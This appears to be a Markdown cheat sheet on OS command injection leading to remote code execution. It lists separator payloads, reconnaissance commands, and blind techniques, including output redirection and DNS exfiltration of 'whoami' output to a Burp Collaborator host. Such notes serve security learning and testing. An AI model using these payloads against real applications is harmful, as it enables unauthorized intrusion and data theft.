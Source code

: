# Remote code execution

## Summary
* [Executing arbitrary commands](#executin-arbitrary-commands)
* [Ways of performing OS injection](#ways-of-performing-os-injection)
* [Useful commands to test for RCE](#useful-commands-to-test-for-rce)
    * [Linux](#linux)
    * [Windows](#windows)
* [Blind OS command injection](#blind-os-command-injection)
    * [Detect blind RCE with time delay](#detecting-blind-os-command-injection-using-time-delays)
    * [Blind RCE by redirecting output](#exploiting-blind-os-command-injection-by-redirecting-output)
    * [Blind RCE with OAST](#exploiting-blind-os-command-injection-with-oast)
    * [Blind RCE with OAST data exfiltration](#exploiting-blind-os-command-injection-with-oast-data-exfiltration)

## Executing arbitrary commands
Suppose a website lets the user to view some particular items
```
> http://example.com?items=2
> an attacker can inject an arbitrary command in the items parameter
> http://example.com?items=&whoami&
> the & character is a shell command separator
> placing the & after the injected commands is useful as it separates the injected command from whatever follows the injection point.
```
## Ways of performing OS injection
```
|whoami|
&whoami&
&&whoami&&
||whoami||
;whoami;
\nwhoami\n
`whoami`
$(whoami)
'whoami'
"whoami"
who\ami
```
## Useful commands to test for RCE
### Linux
```
whoami (name of current user)
uname -a (Operating system)
ifconfig (network configuration)
netstat -an (network connections)
ps -ef (running processes)
```
### Windows
```
whoami (name of current user)
ver (Operating system)
ipconfig /all (network configuration)
netstat -an (network connections)
tasklist (running processes)
```

## Blind OS command injection
### Detecting blind os command injection using time delays
```
> & ping -c 10 127.0.0.1 &
> note the & is used as separator
> this command will cause the application to ping its loopback network adapter for 10 seconds
```
### Exploiting blind OS command injection by redirecting output
```
> this will only works if there is a file within the web root that you can then retrieve from the browser
> let's say there is a file that we can retrieve, /var/www/images
> an attacker can redirect their command injection output to a file in the path of /var/www/images
    # productId=test|whoami > /var/www/images/whoami.txt
> requesting for the path /var/www/images/whoami.txt will reveal the output of the OS injection
```

### Exploiting blind OS command injection with OAST
```
> an attacker can trigger an application to make an interaction with external domain
> using Burp Collaborator, submit the following command
    # productId=test||nslookup BURP-COLLABORATOR.COM||
> click POLL NOW on Collaborator client and observe there is an interaction made by the target application
```
### Exploiting blind OS command injection with OAST data exfiltration
```
> an attacker can execute a system command and exfiltrate the output via a DNS query to an external domain
> using Burp Collaborator, submit the following command
    # productId=test||nslookup `whoami`.BURP-COLLABORATOR.COM||
> click POLL NOW on Collaborator client and observe there is an interaction made by the target application
> notice in the DNS query, a username is included as well with the domain name
```
